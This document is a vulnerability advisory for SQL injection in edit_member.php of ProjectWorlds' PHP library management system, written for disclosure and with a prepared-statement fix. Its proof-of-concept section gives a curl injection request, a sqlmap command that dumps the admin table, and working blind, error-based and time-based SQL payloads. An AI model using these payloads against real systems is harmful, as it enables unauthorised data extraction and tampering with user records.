

# Advanced-Library-Management-System-Project-in-PHP-with-Barcode-edit_member.php
## SQL Injection Vulnerability in `edit_member.php` (parameter: `firstname`, POST — UPDATE-context)

- **Vendor:** ProjectWorlds
- **Product:** Advanced Library Management System Project in PHP with Barcode
- **Affected Version:** 1.0 (master branch)
- **Vendor Homepage:** https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/
- **Vulnerability Type:** SQL Injection (CWE-89)
- **Affected File:** `edit_member.php`
- **Affected Parameters:** `firstname` (also `middlename`, `lastname`, `address`, `branch`, `type`)
- **CVSS Score:** 7.6 (High) — `CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N`
- **Discover Date:** 2026-10-07
- **Researcher:** Shailendra Mourya (CyberShailendra)
- **Researcher Website:** https://cybershailendra.cyou
- **Entry:** VDB-*****
- **CVE ID:** CVE-2026-***
- **Test Environment:** Local VMware lab (CyberShailendra VM), Apache 2.4.58, PHP 8.0.30, MySQL ≥5.1 (MariaDB fork), Windows host
- **Tool Chain:** Manual `curl`/Burp verification + `sqlmap` automated confirmation & dump

---

## Summary
`edit_member.php` builds an `UPDATE user SET ...` statement using raw, unvalidated POST fields (`firstname`, `middlename`, `lastname`, `address`, `branch`, `type`). Only `contact` has regex validation (`/^[6789][0-9]{9}$/`); every other field is injectable. This is distinct from the other findings because it is an **UPDATE-context injection** (not SELECT), so UNION techniques do not apply — but boolean/error/time-based blind and stacked-clause abuse (e.g., overwriting other columns via comma injection) both work.

## Vulnerable Code (Logic Point)
```php
// edit_member.php
$ID = $_GET['user_id'];
...
mysqli_query($con, "UPDATE user SET
    roll_number='$roll_number', firstname='$firstname', middlename='$middlename',
    lastname='$lastname', contact='$contact', gender='$gender',
    address='$address', type='$type', branch='$branch'
    WHERE user_id = '$ID'") or die(mysqli_error($con));
```

**Bug class:** CWE-89 (SQL Injection in UPDATE statement) + CWE-20 (only `contact` is validated; 6 other fields are not).

## Proof of Concept

### Error-based confirmation (curl)
```bash
curl -b cookie.txt \
  --data-urlencode "roll_number=CSE001" \
  --data-urlencode "firstname=Peter'" \
  --data-urlencode "middlename=X" --data-urlencode "lastname=Y" \
  --data-urlencode "contact=9876543210" --data-urlencode "gender=Male" \
  --data-urlencode "address=Test" --data-urlencode "type=Student" --data-urlencode "branch=CSE" \
  --data-urlencode "update=1" \
  "http://<domain>/edit_member.php?user_id=1"
```
Server throws: `You have an error in your SQL syntax ... near 'X', lastname='Y'...` — confirms unsanitized concatenation.

### Automated (sqlmap) — actual run output
```bash
sqlmap -u ".../edit_member.php?user_id=1" --cookie="PHPSESSID=<session>" \
  --data="roll_number=CSE001&firstname=Peter&middlename=X&lastname=Y&contact=9876543210&gender=Male&address=Test&type=Student&branch=CSE&update=1" \
  -p firstname --batch --level=5 --risk=3 -D project_library -T admin --dump
```

```text
POST parameter 'firstname' is vulnerable.
Parameter: firstname (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: roll_number=CSE001&firstname=Peter' RLIKE (SELECT (CASE WHEN (3626=3626) THEN 0x5065746572 ELSE 0x28 END)) AND 'KiVt'='KiVt&middlename=X...

    Type: error-based
    Payload: ...firstname=Peter' AND EXTRACTVALUE(9482,CONCAT(0x5c,0x7178767671,(SELECT (ELT(9482=9482,1))),0x71766a7671)) AND 'iRLW'='iRLW...

    Type: time-based blind
    Payload: ...firstname=CSE001firstname=Peter' AND (SELECT 5000 FROM (SELECT(SLEEP(5)))eVIe) AND 'ejHM'='ejHM...
```

**Result — `admin` table dumped again via a completely different (UPDATE-context) injection point** — confirms the vulnerability class is systemic across the codebase, not a one-off.

### Proof Screenshot


### Raw Verification Log
- Full sqlmap output log: [log](log)

## Impact
- **CVSS 3.1 estimate: 7.6 (High)** — requires authenticated librarian/admin session to reach this endpoint, but allows blind data exfiltration from *any* table (not just `user`), and allows **data corruption** (overwriting other members' records via crafted `branch`/`address` values with embedded `, column=value` clauses).
- Because it's an UPDATE statement, a malicious actor could also silently corrupt other students' records (grade/branch tampering) — an integrity risk beyond simple disclosure.

## Remediation
```php
$stmt = mysqli_prepare($con, "UPDATE user SET roll_number=?, firstname=?, middlename=?,
    lastname=?, contact=?, gender=?, address=?, type=?, branch=? WHERE user_id=?");
mysqli_stmt_bind_param($stmt, "sssssssssi", $roll_number,$firstname,$middlename,$lastname,
    $contact,$gender,$address,$type,$branch,$ID);
mysqli_stmt_execute($stmt);
```
Add server-side validation (alphabetic-only regex) on `firstname`/`middlename`/`lastname`, not just `contact`.


